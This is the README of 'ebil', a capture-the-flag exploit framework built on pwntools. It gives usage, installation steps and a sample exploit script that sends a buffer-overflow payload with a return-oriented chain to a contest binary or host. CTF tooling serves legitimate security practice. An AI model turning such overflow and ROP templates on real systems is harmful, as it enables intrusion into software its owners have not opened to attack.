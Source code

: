 # ebil
ebil is an exploit code framework for CTFs, based on pwntools

Command line tools + python library


![](https://gist.githubusercontent.com/193s/bdcf6ed0864cfb051336/raw/44248717b121f93366ea8dc50762883da3c386a9/ss.png)


### Command line tools
`ebil new <process>` -> `./exploit.py` with `process` will be generated


### Python library
`pip install ./py`

__usage__:
```sh
./exploit.py   # run locally
./exploit.py p # run locally (pause on breakpoints)
./exploit.py r # remote

```
__exploit.py__:
```python
#!/usr/bin/env python
from ebil import *

exec ebil('./vuln', remote=('pwnable.example.com', 35555), args=['wei'], arch='x86_64')

if LOCAL: log.info('** LOCAL **')

payload = 'a'*140

dummy = 0xbeefbeefbeefbeef
payload += chain([
  elf.symbols['write'], dummy, 1, 0x8049348, 4,
])
send(payload, 200)

print repr(r.recvrepeat())

r.wait_for_close()
```

## Installation
```bash
git clone https://github.com/193s/ebil && cd ebil
install -v ebil /usr/local/bin
pip install ./py
```

## License
Copyright (c) 2015 193s

Published under the GNU GPLv2, see ./LICENSE


